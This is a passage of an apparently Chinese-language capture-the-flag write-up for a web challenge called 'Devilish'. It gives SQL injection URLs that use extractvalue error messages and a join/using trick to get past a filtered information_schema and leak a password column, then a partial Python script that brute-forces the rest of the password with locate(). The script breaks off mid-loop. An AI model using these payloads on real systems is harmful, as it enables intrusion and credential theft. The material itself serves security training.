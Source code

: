 ![enter image description here](http://drops.javaweb.org/uploads/images/23d1139d691872113dcfb7a89508a85e6fdfa180.jpg)

0x05 Devilish
=============

* * *

> It’s some devilish community public portal, we’re pretty sure there’s something else out there, a private portal maby, we’d like to know the secret behind it.
> 
> http://188.40.18.70/

首先找到一个SQl注入当做突破口。

```
http://188.40.18.70/PROFILE/54\/KiTTyKiTTy 

```

在页面的注释里面可以找到具体执行的SQL语句

```
<!--SELECT * FROM users WHERE id_user='54\' AND Us3rN4m3='KiTTyKiTTy'--> 

```

注入点过滤了很多东西，经过尝试XML报错的方式是可以利用的。

```
http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09Us3rN4m3%09from%09users%09limit%091)))--%09 

```

因为information_schema 被过滤了，我们需要用另外一种方式来猜出字段名

```
http://188.40.18.70/PROFILE/54%5C/-%28select%09*%09from%09%28select%09*%09from%09users%09join%09users%09b%09using%28id_user,Us3rN4m3,Em4iL4dr3Szz,S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL%29%29c%29--%09

```

执行可得知密码字段为P4sWW0rD_0F_M3_WTF，好变态 - -！

报错出密码，这里有一个比较坑的地方就是因为报错信息长度有限制的关系，这里并不会显示全部的密码。

```
http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09P4sWW0rD_0F_M3_WTF%09from%09users%09limit%091)))--%09

```

我们可以使用locate暴力猜出剩余的密码。 写了一个比较渣的脚本

```
import requests
import string 

charset = string.ascii_letters + string.digits

print charset

if __name__=='__main__':
    ipass = 'sd654egezjniufsdqc89q7d65azd123'
    print ipass.encode('hex')
    while True:
        for i in charset:
            t = ipass + i
            r = requests.get('http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09locate(0x'+t.encode('hex')+',P4sWW0rD_0F_M3_WTF)%09from%09users%09limit%091)))--%09')
            if r.text.find('XPATH syntax error: \'\1\'')!=-1:
```